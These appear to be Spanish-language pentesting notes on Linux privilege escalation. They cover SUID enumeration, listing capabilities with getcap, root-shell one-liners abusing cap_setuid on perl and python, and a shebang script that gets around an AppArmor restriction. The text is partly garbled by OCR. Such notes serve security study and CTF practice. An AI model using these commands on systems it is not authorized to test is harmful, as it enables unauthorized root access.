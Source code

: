 * **GTFOBins:** [GTFOBins](https://gtfobins.github.io/)
Podemos ver en esa pagina que comando podemos usar si encontramos un permiso SUID
```bash 
❯ find / -perm -4000 -ls 2>/dev/null                   # Buscaremos por privilegios SUID

	# ls = Miramos los privilegios y buscamos los de root
```

****

#### Capabilities
```bash
❯ which getcap                             # Para ver si esta instalado el Getcap y mirar las capabilities
```

```bash
❯ getcap -r / 2>/dev/null                  # Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)

	# Tipos de capabilires:
	# cap_setuid=ep = Nos permite setear el UID y hacer que opere como root
```

```bash
* **/usr/bin/perl = cap_setuid+ep** Esta capabilitie nos permite gestionar el UID
	❯ **setcap cap_setuid+ep /usr/bin/perl** 
	❯ **perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'** Para conseguir la consola interactiva
```
**Apparmor** que es modulo de seguridad del Kernel Linux que permite al administrador del sistema restringir las capabilities de un programa. En esta ocasion nos restringe la capabilitie de Perl. Pero podemos hacer lo siguiente:
❯ **touch prueba.sh** Creamos el archivo y nos ayudara a tener una consola interactiva aprovechandonos del Shebang que son #!
	#!/usr/bin/perl
	**use POSIX qw(setuid);**
	**POSIX::setuid(0);**
	**exec "****/bin/sh";
❯ **chmod** **+x prueba.sh** la ejecucion
❯ **./prueba.sh** Ejecutamos el comando anterior.

```bash
* **/usr/bin/python3.9 = cap_setuid+ep** Esta capabilitie nos permite gestionar el UID para convertirnos en Root (ID=0)
	❯ **setcap cap_setuid+ep /usr/bin/python3.9** Agregas la capabilitie a la ruta python
	❯ **setcap -r /usr/bin/pthon3.9** Le quitas la capabilitie a la ruta de python
	❯ **python3.9**
		**❯ import os**
		**❯ os.setuid(0)** – (0= el usuario root)
		**❯ os.system(“/bin/sh”)** Entras a una sh
```

****
#### Tareas CRON
